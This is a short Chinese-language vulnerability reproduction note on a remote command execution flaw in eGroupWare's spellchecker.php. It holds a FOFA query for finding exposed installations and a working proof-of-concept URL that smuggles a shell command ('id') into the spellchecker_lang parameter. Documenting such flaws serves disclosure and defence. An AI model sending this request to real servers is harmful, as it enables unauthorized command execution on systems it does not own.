


# eGroupWare spellchecker.php 远程命令执行漏洞

## 漏洞描述

*eGroupWare*是一个多用户，在以PHP为基础的API上的定制集为基础开发的，以WEB为基础的工作件套装，其中 spellchecker.php 文件中存在命令执行漏洞

## 漏洞影响

```
eGroupWare
```

## FOFA

```
app="EGROUPWARE-产品"
```

## 漏洞复现

登录页面



验证POC

```
/egroupware/phpgwapi/js/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php?spellchecker_lang=egroupware_spellchecker_cmd_exec.nasl%7C%7Cid%7C%7C
```

